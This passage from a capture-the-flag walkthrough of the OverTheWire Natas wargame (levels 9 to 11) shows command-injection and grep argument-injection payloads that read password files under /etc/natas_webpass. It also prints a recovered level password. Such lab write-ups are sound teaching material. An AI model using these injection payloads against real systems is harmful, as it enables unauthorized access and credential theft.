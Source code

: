 use `;cat /etc/natas_webpass/natas10;` got the password

nOpp1igQAkUzaI1GUUjzn1bFVj7xCNzu

## natas10

this time, it filters some of characters ![](../../.gitbook/assets/20190111141322793_1133453800%20%283%29.png)

payload: `-E .* /etc/natas_webpass/natas11`

will execute `grep -i -E ./* /etc/natas_webpass/natas11 dictionary.txt`

this means match all characters in natas11 and dictionary.txt

![](../../.gitbook/assets/20190111141508124_218531768%20%282%29.png)

## natas11

![](../../.gitbook/assets/20190111141751837_1365813093%20%282%29.png)

![](../../.gitbook/assets/20190111141944668_1426335224.png)
